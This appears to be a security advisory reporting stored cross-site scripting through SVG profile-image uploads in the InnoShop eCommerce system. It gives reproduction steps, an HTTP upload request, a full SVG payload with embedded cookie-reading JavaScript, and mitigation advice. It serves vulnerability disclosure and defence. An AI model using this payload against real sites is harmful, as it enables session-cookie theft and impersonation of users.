 <h1>InnoShop</h1>

Innoshop is an Open Source eCommerce System based on Laravel 11, supporting multiple languages, multiple currencies, integrated with OpenAI, and featuring plugin mechanisms and theme template development for enhanced user experience and system extensibility.

**Git Repo:** https://github.com/innocommerce/innoshop


**Finding:**
---

-Stored Cross-Site Scripting in SVG image

Proof Of Concept
---

1. Login as any user

2. Go to Profile > Edit Profile

3. Upload a malicious SVG image then save the change
If any user clicks the image link or the attacker send this link to the victim, their cookies will be stolen. The attacker can use this cookie to impersonate the victim and perform activities on behalf of them.


**For example:**

**UI URL:**

http://YOUR-IP/upload/images

**HTTP Request:**

```
POST /upload/images HTTP/1.1
Host: 192.168.176.137:4444
[...]

------WebKitFormBoundary66kGgRrPnxG9sC35
Content-Disposition: form-data; name="image"; filename="xss.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 20010904//EN"
 "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg version="1.0" xmlns="http://www.w3.org/2000/svg"
 width="300.000000pt" height="300.000000pt" viewBox="0 0 300.000000 300.000000"
 preserveAspectRatio="xMidYMid meet">
<script type="text/javascript">
    <![CDATA[
      // JavaScript code embedded in the SVG
      function getUserCookies() {
  
        // Read all cookies
        var allCookies = document.cookie;
        alert("Cookies found:" + allCookies)
      }

      // call the function
      getUserCookies();
    ]]>
</script>
<metadata>
Created by potrace 1.10, written by Peter Selinger 2001-2011
</metadata>
<g transform="translate(0.000000,300.000000) scale(0.050000,-0.050000)"
fill="#000000" stroke="none">
<path d="M4390 5952 c-113 -53 -289 -221 -427 -409 -84 -114 -98 -125 -153
[...]
------WebKitFormBoundary66kGgRrPnxG9sC35
Content-Disposition: form-data; name="type"

common
------WebKitFormBoundary66kGgRrPnxG9sC35--
```

**Recommendation:**
---

Restrict SVG image file. This is the easiest solution. However, users won't be able to upload their profile pictures using image SVG file extension.
Since you are using NPM for frontend, i suggest you to use DOMPurify. This will completely mitigate XSS in SVG while the file extension is still allowed to be uploaded.
Assign HttpOnly flag to XSRF-Token. This does not completely mitigate XSS but it can prevent hackers to send stolen cookies to their web server.
Input validation. Make sure users can't use special letters like < >, ", & etc. I can see that in some sections for example Phone number section does not validate and allow users to add value that is not integer but string.

**Payload:**
---
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 20010904//EN"
 "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg version="1.0" xmlns="http://www.w3.org/2000/svg"
 width="300.000000pt" height="300.000000pt" viewBox="0 0 300.000000 300.000000"
 preserveAspectRatio="xMidYMid meet">
<script type="text/javascript">
    <![CDATA[
      // JavaScript code embedded in the SVG
      function getUserCookies() {
  
        // Read all cookies
        var allCookies = document.cookie;
        alert("Cookies found:" + allCookies)
      }

      // call the function
      getUserCookies();
    ]]>
</script>
<metadata>
Created by potrace 1.10, written by Peter Selinger 2001-2011
</metadata>
<g transform="translate(0.000000,300.000000) scale(0.050000,-0.050000)"
fill="#000000" stroke="none">
<path d="M4390 5952 c-113 -53 -289 -221 -427 -409 -84 -114 -98 -125 -153
-117 -171 27 -523 -80 -714 -217 l-98 -71 -97 71 c-186 137 -427 215 -661 215
l-115 0 -91 123 c-228 310 -551 543 -524 378 5 -30 19 -167 31 -305 12 -137
30 -281 40 -318 17 -66 13 -74 -119 -213 -336 -354 -415 -830 -210 -1265 l50
-106 -38 -104 c-235 -632 -120 -1587 226 -1874 64 -53 11 -59 -607 -64 l-636
-6 -79 -55 c-242 -167 -208 -515 61 -637 75 -34 153 -37 1058 -38 l977 0 -13
-75 c-25 -132 -109 -254 -295 -425 -213 -197 -351 -454 -221 -414 553 173 689
197 799 139 298 -158 287 -155 466 -155 179 0 168 -3 466 155 110 58 246 34
799 -139 130 -40 -8 217 -221 414 -186 171 -270 293 -295 425 l-13 75 977 0
c905 1 983 4 1058 38 269 122 303 470 61 637 l-79 55 -636 6 c-618 5 -671 11
-607 64 346 287 461 1244 225 1877 l-39 107 51 103 c208 416 127 909 -208
1262 -135 141 -136 144 -120 222 10 43 27 178 39 299 13 121 27 258 32 305 5
47 7 85 5 85 -3 0 -50 -22 -105 -48z m-1960 -899 c250 -67 549 -348 550 -518
0 -19 9 -35 20 -35 11 0 20 16 20 35 1 170 300 451 550 518 734 196 1249 -740
706 -1280 -233 -231 -581 -286 -874 -138 -71 36 -130 63 -132 60 -2 -3 -61
-115 -132 -250 -70 -135 -132 -245 -138 -245 -6 0 -68 110 -138 245 -71 135
-130 247 -132 250 -2 3 -61 -24 -132 -60 -297 -151 -682 -79 -905 167 -500
553 23 1441 737 1251z m-55 -3239 c25 -23 45 -55 45 -72 0 -19 25 -1 61 43 78
95 190 105 270 26 47 -47 49 -60 49 -311 0 -251 -2 -264 -49 -311 -80 -79
-192 -69 -270 26 -40 49 -61 63 -61 41 0 -104 -198 -150 -294 -68 l-56 49 0
260 c0 246 3 262 47 310 75 79 175 82 258 7z m1146 -31 c36 -44 59 -60 59 -41
0 114 205 162 298 70 51 -52 52 -59 52 -314 l0 -261 -56 -49 c-93 -80 -294
-37 -294 63 0 16 -9 29 -20 29 -11 0 -20 -11 -20 -24 0 -108 -203 -155 -291
-67 -54 55 -75 504 -27 594 57 108 210 108 299 0z"/>
<path d="M2090 4647 c-352 -186 -235 -697 160 -697 391 0 514 514 166 692 -91
46 -243 48 -326 5z"/>
<path d="M3590 4647 c-352 -186 -235 -697 160 -697 391 0 514 514 166 692 -91
46 -243 48 -326 5z"/>
</g>
</svg>
```